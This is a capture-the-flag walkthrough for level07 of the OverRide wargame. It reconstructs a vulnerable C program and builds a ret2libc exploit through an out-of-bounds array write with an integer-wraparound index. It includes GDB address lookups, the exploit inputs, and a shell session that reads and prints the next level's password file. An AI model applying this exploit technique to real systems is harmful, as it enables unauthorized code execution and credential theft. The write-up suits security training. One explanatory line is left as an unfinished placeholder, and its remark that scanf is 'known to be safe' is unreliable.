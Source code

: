 # Level07

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -m32 -z execstack source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void clear_stdin()
{
    unsigned char var = 0; // -0x9(%ebp)
    while (1)
    {
        var = getchar();
        if (var == '\n' || var == 0xff)
            break;
    }
}

unsigned int get_unum()
{
    unsigned int var1 = 0; // -0xc(%ebp)

    fflush(stdout);
    scanf("%u", &var1);
    clear_stdin();
    return var1;
}

void prog_timeout()
{
    exit(1); // Supposed to be a system call but cannot reproduce
}

int read_number(int *buffer)
{
    unsigned int var = 0; // -0xc(%ebp)

    printf(" Index: ");
    var = get_unum();
    printf(" Number at data[%u] is %u\n",var, buffer[var]);
    return 0;
}

int store_number(int *buffer)
{
    unsigned int nbr = 0; // -0x10(%ebp)
    unsigned int idx = 0; // -0xc(%ebp)

    printf(" Number: ");
    nbr = get_unum();
    printf(" Index: ");
    idx = get_unum();
    if ((idx % 3 == 0) || (idx >> 0x18 == 0xb7)) // 0x18 is 24 and 0xb7 is 183
    {
        puts(" *** ERROR! ***");
        puts("   This index is reserved for wil!");
        puts(" *** ERROR! ***");
        return 1;
    }
    else
    {
        buffer[idx] = nbr;
        return 0;
    }
    return 0;
}

int main(int argc, char **argv, char **env)
{
    int ret = 0; // 0x1b4(%esp)
    char cmd[20] = {0}; // 0x1b8(%esp) - 0x1c8(%esp)
    unsigned int buff[100] = {0}; // 0x24(%esp)

    while (*argv)
    {
        memset(*argv, 0, strlen(*argv));
        *argv++;
    }
    while (*env)
    {
        memset(*env, 0, strlen(*env));
        *env++;
    }

    puts("----------------------------------------------------\n  Welcome to wil's crappy number storage service!   \n----------------------------------------------------\n Commands:                                          \n    store - store a number into the data storage    \n    read  - read a number from the data storage     \n    quit  - exit the program                        \n----------------------------------------------------\n   wil has reserved some storage :>                 \n----------------------------------");
    while (1)
    {
        printf("Input command: ");
        ret = 1;
        fgets(cmd, 20, stdin);
        cmd[strlen(cmd) - 1] = 0;

        if (strncmp(cmd, "store", 5) == 0)
            ret = store_number(buff);
        else if (strncmp(cmd, "read", 4) == 0)
            ret = read_number(buff);
        else if (strncmp(cmd, "quit", 4) == 0)
            break;

        if (ret)
            printf(" Failed to do %s command\n", cmd);
        else
            printf(" Completed %s command successfully\n", cmd);
        memset(cmd, 0, 20);
    }
    return 0;
}
```

Let's focus on the `store_number` function.  It reads input using the `scanf` function, which is known to be safe has a mechanism to limit the number of bytes read. However, our buffer is only 100 unsigned integers long, which means that we can overflow it by providing an index greater than 100. This will allow us to overwrite the return address of the `main` function.

### Ret2Libc
Check the [level01's walkthrough](../level01/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

To find our padding, Let's analyze the stack layout of our program:
```bash
(gdb) b *main+711 # Breaking before leave
Breakpoint 1 at 0x80489ea

(gdb) r # Run the program
Starting program: /home/users/level07/level07
[...]

Breakpoint 1, 0x080489ea in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd440       0xffffd440
ebp            0xffffd628       0xffffd628
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 488 bytes:
```
0xffffd628 - 0xffffd440 = 1e8 (488 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x24(%esp),%eax`. Since there is 488 bytes for the stack, our buffer will therefore require 452 bytes (488 - 36) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 456 bytes (452 + 4).

Anything written beyond those 456 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Usually we'd just write the addresses to do a ret2libc, but in this case, we have to write the addresses in the buffer itself. The index (devided by 4 since it is an int buffer) will be the padding and the value will be the address.

Since we need 456 bytes of padding, we'll write the address of `system` at index 114 (456 / 4), the address of `exit` at index 115 and the address of `/bin/sh` at index 116. However, we can't use the index 114 because of this check:
```c
if ((idx % 3 == 0) || (idx >> 0x18 == 0xb7)) // 0x18 is 24 and 0xb7 is 183
{
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    return 1;
}
```

As you can see any index that is a multiple of 3 will be reserved for `wil`. EXPLAIN WHY 1073741938 IS EQUAL TO 114 (BESIDES SHORT WRAPPING)

So let's convert all the values:
```
system: 0xf7e6aed0 => 4159090384
exit: 0xf7e5eb70 => 4159040368
/bin/sh: 0xf7f897ec => 4160264172

index / number:
116 / 4160264172 => /bin/sh
115 / 4159040368 => exit
1073741938 / 4159090384 => system
```

Let's run it:
```bash
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

We are now level08! Let's move on to the next level.